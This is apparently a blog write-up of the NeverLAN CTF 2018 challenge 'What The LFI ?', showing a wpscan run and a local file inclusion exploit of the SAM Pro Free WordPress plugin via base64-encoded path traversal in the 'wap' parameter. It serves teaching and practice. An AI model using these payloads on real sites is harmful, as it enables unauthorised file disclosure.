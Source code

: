 ```yaml
---
layout: post
title: NeverLAN CTF 2018 - What The LFI ?
image: "/assets/img/2018/neverlanctf2018/whatthelfi/1.png"
categories: [general, neverlanctf2018]
tags: [neverlanctf2018, writeup]
twitter_text: "Write-up for What The LFI ?"
introduction: "Write-up for What The LFI ?"
description: "Write-up for What The LFI ?"
---
```



![](/assets/img/2018/neverlanctf2018/whatthelfi/1.png)

![](/assets/img/2018/neverlanctf2018/whatthelfi/2.png)

So the website is a wordpress and we are searching for a LFI. First thing I search for links where the LFI could be :

[http://54.201.224.15:14099/?p=1](http://54.201.224.15:14099/?p=1)

[http://54.201.224.15:14099/?cat=1](http://54.201.224.15:14099/?cat=1)

[http://54.201.224.15:14099/?s=test](http://54.201.224.15:14099/?s=test)

And I try basic LFI like this :

[http://54.201.224.15:14099/?p=/var/www/blah.php](http://54.201.224.15:14099/?p=/var/www/blah.php)

[http://54.201.224.15:14099/?p=http://google.fr](http://54.201.224.15:14099/?p=http://google.fr)

We are just redirect, on the index page. Our LFI might not be here, let’s try a wpscan since it’s a wordpress. Command :

```
wpscan 54.201.224.15:14099
```

Result :

![](/assets/img/2018/neverlanctf2018/whatthelfi/3.png)

Interesting there is a plugin not up to date, and there is the LFI.

The scan gives us the location and some reference. Let’s check the reference. We have a Proof of Concept in this one :

[Link](https://www.pluginvulnerabilities.com/2016/10/28/local-file-inclusion-lfi-vulnerability-in-sam-pro-free-edition/)

We can see that the link “wap” is base64, so let’s base64 our path :

```
/var/www/blah.php → L3Zhci93d3cvYmxhaC5waHAK
```

[http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/](http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/)

Url :

[http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=L3Zhci93d3cvYmxhaC5waHAK](http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=L3Zhci93d3cvYmxhaC5waHAK)

Result :

![](/assets/img/2018/neverlanctf2018/whatthelfi/4.png)

It’s not working because we are in the wrong directory, let’s change it by :

```
../../../../blah.php → Li4vLi4vLi4vLi4vYmxhaC5waHA=
```

Final url :

[http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=Li4vLi4vLi4vLi4vYmxhaC5waHA=](http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=Li4vLi4vLi4vLi4vYmxhaC5waHA=)

> The flag : flag{dont_include_files_derived_from_user_input_kthx_bai}